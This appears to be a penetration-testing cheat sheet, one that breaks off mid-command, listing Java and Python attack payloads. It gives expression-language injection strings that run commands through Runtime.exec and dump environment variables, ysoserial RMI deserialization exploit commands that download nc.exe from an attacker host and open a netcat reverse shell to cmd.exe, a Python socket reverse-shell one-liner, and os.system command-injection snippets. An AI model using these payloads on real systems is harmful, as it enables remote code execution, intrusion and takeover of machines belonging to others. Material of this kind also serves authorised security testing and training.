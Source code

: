 ### Parameter injection

Inject terminal commands

```
${T(java.lang.Runtime).getRuntime().exec('<cmd>')}
<%=T(java.lang.Runtime).getRuntime().exec('<cmd>')%>
```

Information gathering

```
${class.getClassLoader()}
${class.getResource("").getPath()}
${T(java.lang.System).getenv()}

<%=class.getClassLoader()%>
<%={class.getResource("").getPath()%>
<%={T(java.lang.System).getenv()%>
```

### Deserialization

Exploit Java deserialization vulnerabilities using ysoserial (requires java installed on local machine). Can be downloaded from [here](https://github.com/frohoff/ysoserial)

#### Deploy payload

```
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 <command or payload>
```

#### NC upload and reverse shell

```
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 "powershell -c \"(new-object System.Net.WebClient).DownloadFile('http://<local ip>/nc.exe','C:\<path>\nc.exe')\""
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 "C:\<target folder>\nc.exe -nv <local ip> <local port> -e cmd.exe"
```

#### Powershell

```
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit <IP> <port> CommonsCollections1 "powershell -c \"$c
```

## Python

### Reverse shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Parameter injection

Inject terminal code

```
os.system("<cmd>")
import os;print(str(os.popen('<cmd>').read()));
```
